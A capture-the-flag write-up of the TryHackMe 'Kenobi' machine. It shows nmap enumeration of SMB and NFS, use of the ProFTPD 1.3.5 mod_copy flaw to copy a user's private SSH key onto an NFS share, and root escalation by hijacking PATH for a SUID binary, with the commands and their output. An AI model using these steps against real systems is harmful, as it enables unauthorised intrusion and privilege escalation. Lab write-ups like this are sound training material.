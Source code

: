 # Kenobi

```text
export IP=10.10.42.124
```
- Performing the legendary nmap scan to know the services running on the machine.

```text
PORT     STATE SERVICE      REASON
21/tcp   open  ftp          syn-ack
22/tcp   open  ssh          syn-ack
80/tcp   open  http         syn-ack
111/tcp  open  rpcbind      syn-ack
139/tcp  open  netbios-ssn  syn-ack
445/tcp  open  microsoft-ds syn-ack
2049/tcp open  nfs          syn-ack

```

### Enumerating samba for shares

- Using nmap to enumerate shares
```text
nmap -p 445,139 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.42.124
```
Lemme look through quickly see what i can find. I actually dont understand much over there. 	

- Theres an rpcbind service running on the server. Just got to read about this one, i honestly dont know much about it. Ive seen it occassionally though.
```text
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount -oN scans/rpcbind $IP
```
Okay from what i am reading on the internet, the rpcbind(a 'bind') is just like a dns server. It registers rpc processes running on the system(ex nfs) and the port numbers they are listening on and then maps them to a unique number. So if a client  system contacts the rpcbind(runs on port 111) with the number of the rpc process(basically a server serving something) called the servers rpc number, the rpcbind will redirect you to that server running on the host machine so you can communicate with it.


### Gain initial Access with ProFtpd

- So i'm trying to use searchsploit to find all the vulnerabilities of this version of ProFtpd running on the machine.
The version of proftpd is ` 220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.59.166] `. 
```text
------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                   |  Path
------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                                                                                        | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                                                                                              | linux/remote/36803.py
ProFTPd 1.3.5 - File Copy                                                                                                                        | linux/remote/36742.txt
------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

- Using the mod_copy which implements the `SITE CPTO` and `SITE CPFR` which allows any unathenticated user to copy files from and to any part of the file system. From previous recon work we know ftp is running as kenobi user and ssh key is generated for that user so we copy it into the directory associated with the nfs server running on the machine which is `/var`.

```text
kali@kali:~/ctf-me/TryHackMe/Kenobi$ nc $IP 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.59.166]
SITE CPFR /home/Kenobi/.ssh/id_rsa
550 /home/Kenobi/.ssh/id_rsa: No such file or directory
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful

```

- We now mount that filesystem on our system with these commands.
```text
mkdir /mnt/kenobiNFS
mount machine_ip:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
```
We then login with ssh as the user kenobi and look around for the flag. Which i got.

### Priviledge Escalation with path variable manipulation

- On linux machines we have suid, sgid binaries and sticky bits. Suid binaries allow you to run commands as the owner of the file while sgid allow you to run commands as the group owner of the file. Sticky dont do anything anything special.
Good thing to do when you get on linux servers as a pentester is to look around for suid, sgid binaries. `find / -perm -u=s -type f 2>/dev/null`

- We found a particular abnormal suid executable. It is possible running as root user and it is executing some commands also.  Now, the commands it is running are not absolute paths to the commands but just the relative paths in the path variable. If we change the path variable and make it look into another directory and finds the same file it will totally execute it. Lets try that now.

How i got into the root folder.
```text
kenobi@kenobi:/tmp$ echo /bin/sh > curl
kenobi@kenobi:/tmp$ ls
curl  systemd-private-6c0e92cdf0684821b63d863fc22c45de-systemd-timesyncd.service-y6oO5n
kenobi@kenobi:/tmp$ chmod 777 curl
kenobi@kenobi:/tmp$ ./curl
$ id
uid=1000(kenobi) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
$ exit
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
# cat /root/root.txt
177b3cd8562289f37382721c28381f02
# Connection to 10.10.59.166 closed by remote host.
Connection to 10.10.59.166 closed.

```
